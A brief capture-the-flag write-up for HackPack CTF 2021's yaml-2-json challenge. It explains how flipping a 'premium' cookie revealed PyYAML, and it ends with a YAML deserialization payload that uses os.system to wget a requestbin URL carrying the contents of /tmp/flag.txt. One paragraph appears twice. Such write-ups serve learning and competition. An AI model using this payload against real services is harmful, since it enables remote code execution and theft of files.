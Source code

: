 https://yaml-2-json.ctf2021.hackpack.club/

page offers a simple conversion from .yaml to .json

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin

| ![](https://i.ibb.co/hdJ3Kpg/Screenshot-2021-04-17-Yaml-2-Json-Hackpack-CTF-2021.png)

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


```{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}```
